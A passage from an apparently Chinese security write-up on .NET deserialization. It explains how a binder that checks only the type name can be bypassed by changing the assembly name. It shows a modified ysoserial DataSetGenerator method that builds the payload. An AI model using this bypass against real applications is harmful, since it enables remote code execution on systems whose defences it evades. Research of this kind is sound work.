 该对象存储`Type`和`assemblyName`程序集名

如果能从缓存中获取到则执行`typeNAssembly.type;`返回Type对象

如果获取为空，则走到上面的if判断，调用`ResolveSimpleAssemblyName(new AssemblyName(assemblyName));`获取`assemblyName`指定的`Assembly`对象，然后调用`GetSimplyNamedTypeFromAssembly(assembly, typeName, ref type);`获取对应的Type对象。

结合以上代码知道，在`BindToType`方法只检测`typeName`的时候可以通过在系列化修改`assemblyName`值的方式进行绕过。

修改`ysoserial\Generators\DataSetGenerator.cs`

```plain
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            // info.SetType(typeof(System.Data.DataSet));

            Type type = typeof(System.Data.DataSet);
            info.FullTypeName = type.AssemblyQualifiedName;
            info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
            info.AddValue("DataSet.DataSetName", "");
            info.AddValue("DataSet.Namespace", "");
            info.AddValue("DataSet.Prefix", "");
            info.AddValue("DataSet.CaseSensitive", false);
            info.AddValue("DataSet.LocaleLCID", 0x409);
            info.AddValue("DataSet.EnforceConstraints", false);
            info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
            info.AddValue("DataSet.Tables.Count", 1);
            info.AddValue("DataSet.Tables_0", _fakeTable);
        }
```

[![](assets/1701606711-b6fee82c744f49fbeb23d7ce25f00f4d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108201347-45057560-7e30-1.png)
